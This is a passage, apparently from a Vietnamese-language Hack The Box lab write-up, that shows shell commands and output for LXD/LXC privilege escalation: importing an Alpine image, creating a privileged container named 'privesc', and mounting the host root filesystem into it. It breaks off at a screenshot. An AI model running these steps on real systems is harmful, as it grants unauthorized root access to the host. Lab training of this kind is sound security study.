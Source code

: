 Tiến hành import image

```zsh
htb-student@ubuntu:~/ContainerImages$ lxc image import alpine-v3.18-x86_64-20230607_1234.tar.gz --alias alpinetemp
Image imported with fingerprint: b14f17d61b9d2997ebe1d3620fbfb2e48773678c186c2294c073e2122c41a485
htb-student@ubuntu:~/ContainerImages$ lxc image list
+------------+--------------+--------+-------------------------------+--------------+-----------+--------+------------------------------+
|   ALIAS    | FINGERPRINT  | PUBLIC |          DESCRIPTION          | ARCHITECTURE |   TYPE    |  SIZE  |         UPLOAD DATE          |
+------------+--------------+--------+-------------------------------+--------------+-----------+--------+------------------------------+
| alpinetemp | b14f17d61b9d | no     | alpine v3.18 (20230607_12:34) | x86_64       | CONTAINER | 3.62MB | Jul 28, 2025 at 2:07pm (UTC) |
+------------+--------------+--------+-------------------------------+--------------+-----------+--------+------------------------------+
```

Cấu hình loại bỏ các hạn chế và mount vào ổ đĩa:

```zsh
htb-student@ubuntu:~/ContainerImages$ lxc init alpinetemp privesc -c security.privileged=true
Creating privesc
htb-student@ubuntu:~/ContainerImages$ lxc config device add privesc host-root disk source=/ path=/mnt/root recursive=true
Device host-root added to privesc
```

Khởi chạy Containers

![](../17.png)
